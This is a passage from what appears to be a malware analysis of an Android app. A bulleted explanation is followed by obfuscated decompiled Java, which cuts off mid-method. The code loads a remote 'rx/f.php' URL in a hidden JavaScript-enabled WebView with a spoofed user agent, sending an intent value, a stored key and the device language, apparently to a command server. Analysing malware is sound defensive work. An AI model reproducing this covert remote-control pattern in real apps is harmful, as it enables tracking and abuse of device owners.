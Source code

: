 It checks if the device is of a certain type (device equals “4”) via the Tamarix.bedamned.
If true, it sets a value of “true” in the context with the key “opi”.
Gets the intent and retrieve two values (str and id) passed through the intent. 
If str is not null or empty, it sets a value “true” in the context with the key “rbt”.
Configure a WebView with JavaScript enabled and a specific User-Agent.
Extends WebViewClient and handles web page loading events. 
The method onPagefinished: if the URL contains “STOP”, it performs a series of actions:
•   Loads a blank page (About:blank)
•   Updates some keys in the context with new values.
•   Finish the activity. (finish)
•   Extends webChromeClient
•   Handles JavaScript Alert (onJsAlert)
Otherwise, it checks the device type again and updates the keys in the context with “false” value. 
This function returns false when the “back” button is pressed


```Java

public class untraffickable extends Activity {
    private static String prevailed;
 
    @Override
    @SuppressLint({"SetJavaScriptEnabled"})
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
    }
 
    @Override
    public void onStart() {
        super.onStart();
        boolean equals = Tamarix.bedamned(getApplicationContext(), cirrofilum.effluvias("device")).equals(cirrofilum.effluvias("4"));
        String effluvias = cirrofilum.effluvias("true");
        if (equals) {
            Tamarix.Sandrakottos(getApplicationContext(), cirrofilum.effluvias("opi"), effluvias);
        }
        Intent intent = getIntent();
        String str = intent.getStringExtra(cirrofilum.effluvias("str"));
        prevailed = intent.getStringExtra(cirrofilum.effluvias("id"));
        if (!str.equals(HttpUrl.FRAGMENT_ENCODE_SET) || str != null) {
            Tamarix.Sandrakottos(getApplicationContext(), cirrofilum.effluvias("rbt"), effluvias);
            WebView wv = new WebView(this);
            wv.getSettings().setJavaScriptEnabled(true);
            wv.getSettings().setUserAgentString(cirrofilum.effluvias("Mozilla/5.0 (Linux; Android 9; SM-J730F Build/PPR12.180610.011; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36"));
            wv.setWebViewClient(new MyWebViewClient());
            wv.setWebChromeClient(new MyWebChromeClient());
            wv.loadUrl(Tamarix.Uriiah(Tamarix.bedamned(this, cirrofilum.effluvias("min"))) + cirrofilum.effluvias("rx/f.php?f=") + str + cirrofilum.effluvias("&p=") + Tamarix.bedamned(getApplicationContext(), cirrofilum.effluvias("ky")) + cirrofilum.effluvias("|") + Locale.getDefault().getLanguage().toLowerCase());
            setContentView(wv);
        }
    }
 
    public class MyWebViewClient extends WebViewClient {
        @Override
        public void onPageFinished(WebView view, String url) {
            if (url.contains(cirrofilum.effluvias("STOP"))) {
                view.loadUrl(cirrofilum.effluvias("about:blank"));
                Context applicationContext = untraffickable.this.getApplicationContext();
                String effluvias = cirrofilum.effluvias("is");
                String rep = Tamarix.bedamned(applicationContext, effluvias);
```